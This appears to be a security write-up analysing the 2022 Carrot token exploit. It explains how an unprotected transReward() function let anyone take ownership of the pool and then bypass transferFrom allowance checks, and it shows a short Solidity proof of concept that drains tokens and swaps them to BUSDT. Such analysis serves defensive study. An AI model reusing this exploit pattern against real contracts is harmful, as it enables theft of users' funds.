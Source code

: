 # Carrot


## What's Carrot?
a rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

the `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the Action-Check pattern, where you act, in this case transferring tokens without explicitly checking for permission. 
The actual check is deferred to a later point in the code, the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the onlyOwner initPool() function on the token.

to pass the `onlyOwner` check, we can gain acces of the contract by the following function.


```solidity
   function transReward(bytes memory data) public {
      pool.functionCall(data);
   }
```

It seems that the function lacks access control and is public for everyone, so in the concluding step, the ownership of the pool contract is established by invoking the `transReward()` function on the token with the selector `"0xbf699b4b"`, which in English is the "change 
owner" function and the desired address is specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.



# proof of concept (PoC)
![euler Image](../images/euler/euler.png)


```solidity
        // Call vulnerable transReward() to set this contract as owner. No auth control
        CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));

        // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
        CARROT_TOKEN.transferFrom(
            0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
        );

        // Swap all stolen Carrot to BUSDT
        _CARROTToBUSDT();
```




**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
